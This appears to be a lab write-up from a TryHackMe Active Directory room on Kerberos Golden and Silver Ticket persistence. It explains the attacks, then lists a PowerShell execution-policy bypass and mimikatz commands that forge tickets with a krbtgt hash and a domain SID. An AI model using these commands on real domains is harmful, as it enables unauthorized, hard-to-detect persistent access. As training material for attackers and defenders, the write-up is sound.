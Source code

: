 # Persistence through tickets

## Kerberos authentication flow

Ticket Granting Ticket:

| ![Kerberos TGT Auth Flow](../../_static/images/kerberos-tgt.png) |
|:--:|
| As long as the session has not lapsed, the user can reuse the TGT as often as needed <br>to request a TGS. |

Ticket Granting Service:

| ![Kerberos TGS Auth Flow](../../_static/images/kerberos-tgs.png) |
|:--:|
| The TGS also has a service session key, and when the SP decrypts the ticket, the SP <br>will have a session key for the user. |

User Authentication:

| ![Kerberos TGS Auth Flow](../../_static/images/kerberos-user.png) |
|:--:|
| Deny/Allow |

Pass-the-Ticket requires both the ticket and the service session key in order to pass a TGS to a service principal 
to authenticate as a user. A TGT (Golden ticket) allows an attacker to request multiple TGSs (Silver tickets) on 
behalf of a user.

* When a user requests a TGS, they send an encrypted timestamp derived from their password. The algorithm used to 
create this key can be `DES` (disabled by default on newer Windows installations), `RC4`, `AES218`, or `AES256`, and can 
perhaps be extracted using `mimikatz`. If any of these keys are available on the host, then we can try to request a TGT 
as the user the `Pass-the-Key` way.
* The `RC4` hash is equal to a user's `NTLM` hash. If a users' NTLM hashes were dumped from LSASS during enumeration on 
a domain-joined host, and RC4 a valid encryption algorithm, then these are RC4 hashes, which could be used to request a 
TGT the `Overpass-the-Hash` way.

## Golden Tickets

Golden Tickets are forged TGTs. What this means is we bypass steps 1 and 2 of the diagram above, where we prove to the DC who we are. Having a valid TGT of a privileged account, we can now request a TGS for almost any service we want. In order to forge a golden ticket, we need the `krbtg` account's password hash so that we can sign a TGT for any user account we want. Some interesting notes about Golden Tickets:

* By injecting at this stage of the Kerberos process, we don't need the password hash of the account we want to impersonate since we bypass that step. The TGT is only used to prove that the KDC on a DC signed it. Since it was signed by the `krbtg` hash, this verification passes and the TGT is declared valid no matter its contents.
* Speaking of contents, the KDC will only validate the user account specified in the TGT if it is older than 20 minutes. This means we can put a disabled, deleted, or non-existent account in the TGT, and it will be valid as long as we ensure the timestamp is not older than 20 minutes.
* Since the policies and rules for tickets are set in the TGT itself, we could overwrite the values pushed by the KDC, such as, for example, that tickets should only be valid for 10 hours. We could, for instance, ensure that our TGT is valid for 10 years, granting us persistence.
* By default, the `krbtg` account's password never changes, meaning once we have it, unless it is manually rotated, we have persistent access by generating TGTs forever.
* The blue team would have to rotate the `krbtg` account's password twice, since the current and previous passwords are kept valid for the account. This is to ensure that accidental rotation of the password does not impact services.
* Rotating the `krbtg` account's password is an incredibly painful process for the blue team since it will cause a significant amount of services in the environment to stop working. They think they have a valid TGT, sometimes for the next couple of hours, but that TGT is no longer valid. Not all services are smart enough to release the TGT is no longer valid (since the timestamp is still valid) and thus won't auto-request a new TGT.
* Golden tickets would even allow you to bypass smart card authentication, since the smart card is verified by the DC before it creates the TGT.
* We can generate a golden ticket on any machine, even one that is not domain-joined (such as our own attack machine), making it harder for the blue team to detect.

Apart from the `krbtg` account's password hash, we only need the domain name, domain SID, and user ID for the person we want to impersonate. If we are in a position where we can recover the `krbtg` account's password hash, we would already be in a position where we can recover the other pieces of the required information.

## Silver Tickets

Silver Tickets are forged TGS tickets. So now, we skip all communication (Step 1-4 in the diagram above) we would have had with the KDC on the DC and just interface with the service we want access to directly. Some interesting notes about Silver Tickets:

* The generated TGS is signed by the machine account of the host we are targeting.
* The main difference between Golden and Silver Tickets is the number of privileges we acquire. If we have the `krbtg` account's password hash, we can get access to everything. With a Silver Ticket, since we only have access to the password hash of the machine account of the server we are attacking, we can only impersonate users on that host itself. The Silver Ticket's scope is limited to whatever service is targeted on the specific server.
* Since the TGS is forged, there is no associated TGT, meaning the DC was never contacted. This makes the attack incredibly dangerous since the only available logs would be on the targeted server. So while the scope is more limited, it is significantly harder for the blue team to detect.
* Since permissions are determined through SIDs, we can again create a non-existing user for our silver ticket, as long as we ensure the ticket has the relevant SIDs that would place the user in the host's local administrators group.
* The machine account's password is usually rotated every 30 days, which would not be good for persistence. However, we could leverage the access our TGS provides to gain access to the host's registry and alter the parameter that is responsible for the password rotation of the machine account. Thereby ensuring the machine account remains static and granting us persistence on the machine.
* While only having access to a single host might seem like a significant downgrade, machine accounts can be used as normal AD accounts, allowing you not only administrative access to the host but also the means to continue enumerating and exploiting AD as you would with an AD user account.

## Forging tickets

`SSH` to `THMWRK1` with the unprivileged user account from the distributor.

    ssh user.name@za.tryhackme.loc@thmwrk1.za.tryhackme.loc

Start a powershell: 

    powershell.exe -ep bypass

Get the domain context:

```text
PS C:\Users\Administrator.ZA> Get-ADDomain
AllowedDNSSuffixes                 : {}
ComputersContainer                 : CN=Computers,DC=za,DC=tryhackme,DC=loc
DeletedObjectsContainer            : CN=Deleted Objects,DC=za,DC=tryhackme,DC=loc
DistinguishedName                  : DC=za,DC=tryhackme,DC=loc
DNSRoot                            : za.tryhackme.loc
DomainControllersContainer         : OU=Domain Controllers,DC=za,DC=tryhackme,DC=loc
DomainMode                         : Windows2012R2Domain
DomainSID                          : S-1-5-21-3885271727-2693558621-2658995185
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=za,DC=tryhackme,DC=loc
Forest                             : tryhackme.loc
InfrastructureMaster               : THMDC.za.tryhackme.loc
LastLogonReplicationInterval       :
LinkedGroupPolicyObjects           : {CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=za,DC=tryhackme,DC=loc}
LostAndFoundContainer              : CN=LostAndFound,DC=za,DC=tryhackme,DC=loc
ManagedBy                          :
Name                               : za
NetBIOSName                        : ZA
ObjectClass                        : domainDNS
ObjectGUID                         : 1fc9e299-da51-4d03-baa0-862c3360c0b2
ParentDomain                       : tryhackme.loc
PDCEmulator                        : THMDC.za.tryhackme.loc
PublicKeyRequiredPasswordRolling   :
QuotasContainer                    : CN=NTDS Quotas,DC=za,DC=tryhackme,DC=loc
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {THMDC.za.tryhackme.loc}
RIDMaster                          : THMDC.za.tryhackme.loc
SubordinateReferences              : {DC=DomainDnsZones,DC=za,DC=tryhackme,DC=loc}
SystemsContainer                   : CN=System,DC=za,DC=tryhackme,DC=loc
UsersContainer                     : CN=Users,DC=za,DC=tryhackme,DC=loc
```

Start Mimikatz:

    PS C:\Users\Administrator.ZA> C:\Tools\mimikatz_trunk\x64\mimikatz.exe

Forge a golden ticket:

    mimikatz # kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /krbtgt:16f9af38fca3ada405386b3b57366082 /endin:600 /renewmax:10080 /ptt

We can specify `/admin:ReallyNotLegitAccount` because of signing the TGT request with the `krbtgt` hash, so the KDC 
does not verify the identity. It just grants the TGT because it sees the `krbtgt` hash.

Forge a silver ticket:

    mimikatz # kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /target:thmserver1.za.tryhackme.loc /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt

Run the `dir` command against `THMSERVER1`:

    dir \\thmserver1.za.tryhackme.loc\c$\

## Resources

* [Sneaky Active Directory Persistence #16: Computer Accounts & Domain Controller Silver Tickets](https://adsecurity.org/?p=2753)
